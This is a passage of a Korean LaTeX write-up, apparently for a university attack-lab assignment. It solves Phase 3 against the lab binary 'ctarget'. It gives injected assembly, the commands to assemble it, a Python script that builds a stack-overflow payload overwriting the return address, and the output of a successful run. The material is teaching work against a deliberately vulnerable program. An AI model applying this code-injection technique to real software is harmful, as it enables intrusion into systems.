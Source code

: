 \documentclass{scrartcl}
\begin{document}
\subsection{Phase 3}
\texttt{touch3} 함수의 코드를 분석해 보면 \texttt{hexmatch} 함수의 반환 값을
확인함을 알 수 있다. 이 함수에서는 랜덤을 통해 복잡한 연산을 수행하여
\texttt{0x55629f0b} 주소를 만든 다음, cookie 값이 저장되어 있는 rdx 레지스터를
\texttt{sprintf} 함수를 이용해 16진수로 이 주소에 출력한다. 그 뒤에
\texttt{strncmp} 함수를 사용하여 함수 호출 시점에서 rsi 레지스터에 있었던
주소의 문자열과 비교하여 같다면 1을 반환함을 알 수 있다. \texttt{hexmatch}
함수가 0이 아닌 값을 반환해야 공격이 성공하기 때문에, rdi 레지스터에 cookie
값을 16진수로 나타낸 문자열의 주소를 넣게 \texttt{touch3} 함수를 실행하면
공격을 할 수 있음을 예상할 수 있다. 문자열 또한 스택에 적어두고, 스택의 주소를
참조하는 식으로 공격을 설계하면 될 것이다. 여기에서는 스택의 적힌 리턴 주소
바로 다음에 cookie를 16진수로 적은 문자열을 저장하고 그 다음에 코드가
이어지도록 했지만, 이 외에도 여러 가지 방법이 가능할 것이다. 스택에 덮을
어셈블리 코드는 다음과 같다.
\begin{lstlisting}
.section .text
.globl start
start:
mov $0x55629f48, %rdi
mov $0x40194d, %rax
callq *%rax
\end{lstlisting}
앞서 phase 2를 해결할 때 실행했던 것과 비슷한 명령어를 실행하여
\texttt{phase3\_code.bin} 파일을 얻을 수 있다.
\begin{lstlisting}
$ as -o phase3_code.o phase3_code.S
$ ld -e start --oformat binary -o phase3_code.bin phase3_code.o
\end{lstlisting}
Input string은 다음과 같은 코드로 만들 수 있다.
\begin{lstlisting}[language=Python]
import struct

cookie = 0x3E52DFF5
stack_addr = 0x55629F40

with open("phase3_payload.bin", "wb") as outfile, open(
    "phase3_code.bin", "rb"
) as infile:
    outfile.write(b"A" * 0x18)
    cookie_hex = f"{cookie:8x}".encode() + b"\x00"
    outfile.write(struct.pack("<q", stack_addr + 8 + len(cookie_hex)))
    outfile.write(cookie_hex)
    outfile.write(infile.read())
\end{lstlisting}
이 코드를 통해 생성한 \texttt{phase3\_payload.bin} 파일을 입력으로 주어
실행시키면 공격이 성공함을 알 수 있다.
\begin{lstlisting}
$ ./ctarget < phase3_payload.bin
Cookie: 0x3e52dff5
Type string:Touch3!: You called touch3("3e52dff5")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
\end{lstlisting}
\end{document}
